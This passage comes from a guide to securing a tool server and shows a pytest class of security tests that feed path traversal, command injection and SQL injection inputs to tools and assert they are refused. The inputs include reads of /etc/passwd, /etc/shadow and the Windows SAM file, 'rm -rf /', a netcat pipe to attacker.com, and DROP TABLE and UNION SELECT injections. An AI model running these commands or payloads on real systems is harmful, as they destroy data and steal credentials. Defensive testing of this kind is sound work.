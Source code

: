 ### Step 7: Test Security Scenarios

Run security-specific tests:

```python
import pytest

class TestSecurityScenarios:
    """Security-focused test cases"""

    def test_path_traversal_prevention(self):
        """Attempt path traversal attacks"""
        malicious_paths = [
            "../../../etc/passwd",
            "..\\..\\..\\windows\\system32\\config\\sam",
            "/etc/shadow",
            "C:\\Windows\\System32\\config\\SAM"
        ]

        for path in malicious_paths:
            result = mcp.call_tool("read_file", {"path": path})
            assert result["success"] is False
            assert "access denied" in result["error"].lower()

    def test_command_injection_prevention(self):
        """Attempt command injection"""
        malicious_commands = [
            "ls; rm -rf /",
            "ls && cat /etc/passwd",
            "ls | nc attacker.com 4444"
        ]

        for cmd in malicious_commands:
            result = mcp.call_tool("run", {"command": cmd})
            assert result["success"] is False

    def test_sql_injection_prevention(self):
        """Attempt SQL injection"""
        malicious_inputs = [
            "admin' OR '1'='1",
            "'; DROP TABLE users; --",
            "admin' UNION SELECT password FROM users--"
        ]

        for username in malicious_inputs:
            result = mcp.call_tool("search_user", {"username": username})
            # Should not return unauthorized data
            assert result.get("users", []) == []

    def test_no_secrets_in_errors(self):
        """Ensure secrets not exposed in errors"""
        result = mcp.call_tool("api_call_with_token", {"endpoint": "/invalid"})

        # Check error doesn't contain API key
        error_str = str(result).lower()
        assert "api_key" not in error_str
        assert "token" not in error_str
        assert "secret" not in error_str

    def test_rate_limiting(self):
        """Verify rate limiting works"""
        # Make many requests rapidly
        results = []
        for i in range(150):
```